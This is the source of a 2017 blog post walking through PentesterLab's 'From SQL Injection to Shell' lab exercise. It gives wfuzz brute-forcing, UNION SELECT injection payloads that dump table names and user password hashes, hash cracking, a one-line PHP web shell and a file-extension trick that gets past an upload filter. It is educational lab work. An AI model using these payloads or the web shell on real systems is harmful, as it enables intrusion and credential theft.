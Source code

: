 ```yaml
---
layout: post
title: "PentesterLab Bootcamp - SQL Injection"
date: 2017-01-04
description: "Walk-through guide to PentesterLab's bootcamp."
number: "0x09"
---
```

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

This is part 5.1 of my write-up of PentesterLab's [Bootcamp](https://pentesterlab.com/bootcamp) course. If you see any errors or want to suggest I do something different, please [contact me](https://www.maxmunday.com/contact/) to let me know.

Write-up parts [1](https://www.maxmunday.com/blog/2016/05/14/pentesterlab-bootcamp-part-1-linux-and-scripting), [2](https://www.maxmunday.com/blog/2016/05/22/pentesterlab-bootcamp-part-2-http), [3](https://www.maxmunday.com/blog/2016/05/27/pentesterlab-bootcamp-part-3-php-and-dns), [4](https://www.maxmunday.com/blog/2016/08/09/pentesterlab-bootcamp-part-4-ssl-tls), [5.1](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection), [5.2](https://www.maxmunday.com/blog/2017/01/18/pentesterlab-bootcamp-part-5.2-local-file-include).


\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

<pre>
                   * * * [ DISCLAIMER ] * * *
/*
 * All information in this write-up is, to the best of my knowledge,  
 * truthful and accurate. However, I am only new to this, and I am   
 * learning as I go, so it is entirely possible something contained  
 * within this write-up is incorrect in some way. Never execute any  
 * command, without knowing for sure what it is you are doing. Look  
 * at the man pages of all commands if you do not understand them.  
 *
 * I take no responsibility if you decide to use this information   
 * to commit illegal acts. If you attempt to use these techniques  
 * against devices or networks you do not either own, or have    
 * permission to attack, you could end up in prison.  
 *
 */  
</pre>
 
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Step 5 ]
 
Finally we are into some web app security. This step has us run through two of PentesterLab's exercises: [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell) and [PHP Include And Post Exploitation](https://pentesterlab.com/exercises/php_include_and_post_exploitation) (write-up coming soon). Download the ISOs and run them in a VM, then access them in a browser using the IP address. [Here](https://www.youtube.com/watch?v=kdYuJDWxOHc) is a video if you need help setting it up.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ From SQL Injection to Shell ]

PentesterLab provide an informative [written course](https://pentesterlab.com/exercises/from_sqli_to_shell/course) to work through for this exercise. I will not go through everything, I will just do a write-up of the solution as I see it. Run through their course to get the complete learning experience. 

\-\-[ Fingerprinting ]

This intial step is neccesary to gather information about the technologies in use within the web application. This is useful in determining what vulnerabilties may exist or where we can search for them. For this exercise, we are hoping to find a web app written in PHP.

We can use [Burp Suite's](https://portswigger.net/) proxy to intercept and view the header information.

![](/pictures/sql2shell_1.png){:height="203px" width="301px"}

We can also use [wfuzz](http://www.edge-security.com/wfuzz.php) to detect directories and pages on the webserver by brute force. Using the script

{% highlight shell %}
$ wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://vulnerable/FUZZ.php
{% endhighlight %}

we get

![](/pictures/sql2shell_2.png){:height="442px" width="610px"}

We can see all the directories in the web app that are written in PHP.

\-\-[ Detection of SQL Injection ]

First we will attempt to detect a SQL injection based on integers. We will access various URLs to see if the SQL request is echoed into the database. 

We will access the URL `vunlerable/cat.php?id=1` and see if we can generate a syntax error, and/or perform mathematical operations for us:

![](/pictures/sql2shell_3.png){:height="343px" width="287px"}

![](/pictures/sql2shell_4.png){:height="343px" width="287px"}

If we access `/cat.php?id=1'` (adding ' to the end of the query), we see it kicks back a syntax error on the page. This will allow us to perform basic mathematical operations. 

![](/pictures/sql2shell_6.png){:height="308px" width="614px"}

Accessing `/cat.php?id=2-1` we see that it serves up the page at `/cat.php?id=1`. 

![](/pictures/sql2shell_5.png){:height="343px" width="287px"}

This is a likely indication of a SQL injection.

Next we will attempt to detect a SQL injection based on strings. We will test with SQL syntax in the URL.

![](/pictures/sql2shell_7.png){:height="343px" width="287px"}

![](/pictures/sql2shell_8.png){:height="343px" width="287px"}

![](/pictures/sql2shell_9.png){:height="343px" width="287px"}

We can see that the syntax in the URL is being echoed on the database as the syntax `and 1 = 1` results in page `/cat.php?id=2`, while `and 1 = 0` does not. Futhermore, when we comment `and 1 = 0` out using `--`, it still serves the page.

This is another likely indication of a SQL injection.

\-\-[ Exploitation ] 

We will now attempt to exploit the SQL injection we discovered in `vulnerable/cat.php`. We can use the `UNION` keyword to pull information from the database by using a second SQL query at the end of the URL.

We need to know the number of columns in the table in order to use `UNION` to exploit the vunerable SQL database. We can guess the number of columns using the `UNION SELECT` statement. 

We start with `1 UNION SELECT 1` and see if it kicks an error, if it does we keep adding columns `1 UNION SELECT 1,2`.. etc until there is no error, this will indicate the number of columns in the table.

![](/pictures/sql2shell_10.png){:height="302px" width="505px"}

![](/pictures/sql2shell_11.png){:height="638px" width="512px"}

From this we can see that there are 4 columns in this table. We can use this information to retrieve information from the database.

We can use this information to display the current user

![](/pictures/sql2shell_12.png){:height="620px" width="481px"}

we can view the table names by submitting 

~~~
/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
~~~

![](/pictures/sql2shell_13.png){:height="569px" width="483px"}

and the column names by submitting 

~~~
/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns
~~~

![](/pictures/sql2shell_16.png){:height="585px" width="414px"}

Using this information we can submit the following query to retrieve the login and password information from the users table on the database

~~~
/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;
~~~

![](/pictures/sql2shell_14.png){:height="386px" width="414px"}

Now we have the login and the unsalted hashed password for the current user.

To crack this hash we can use [John-The-Ripper](http://www.openwall.com/john/) with a password list. I use rockyou.txt available [here](https://wiki.skullsecurity.org/index.php?title=Passwords).

![](/pictures/sql2shell_15.png){:height="164px" width="805px"}

This gives us the credentials admin:P4ssw0rd. We can now use these credentials to login and upload a webshell.

Using these credentials we can login to the admin panel and upload an image. We can use this to upload a PHP webshell script to allow us to execute commands on the operating systems.

This simple PHP script will allow us to execute commands on the server

{% highlight php %}
<?php
	system($_GET['cmd']);
?>
{% endhighlight %}

However, when we attempt to upload the script `shell.php` we are given an error

![](/pictures/sql2shell_19.png){:height="367px" width="304px"}

To get around this filter we can change the file name to `shell.php.test`, Apache will still use `.php` since in this configuration it doesn't have an handler for `.test`

This is successful. We can view the source to see where we can access the script

![](/pictures/sql2shell_20.png){:height="144px" width="514px"}

We can access `vulnerable/admin/uploads/shell.php.test?cmd=` and start running commands

![](/pictures/sql2shell_21.png){:height="170px" width="636px"}

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

/*\*\* [Part 1 - Linux and Scripting](https://www.maxmunday.com/blog/2016/05/14/pentesterlab-bootcamp-part-1-linux-and-scripting) \*\*\*/

/*\*\* [Part 2 - HTTP](https://www.maxmunday.com/blog/2016/05/22/pentesterlab-bootcamp-part-2-http) \*\*\*/

/*\*\* [Part 3 - PHP and DNS](https://www.maxmunday.com/blog/2016/05/27/pentesterlab-bootcamp-part-3-php-and-dns) \*\*\*/

/*\*\* [Part 4 - SSL/TLS](https://www.maxmunday.com/blog/2016/08/09/pentesterlab-bootcamp-part-4-ssl-tls) \*\*\*/

/*\*\* [Part 5.2 - Local File Include](https://www.maxmunday.com/blog/2017/01/18/pentesterlab-bootcamp-part-5.2-local-file-include) \*\*\*/

/*\*\* Part 6- More SQL Injection COMING SOON \*\*\*/

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

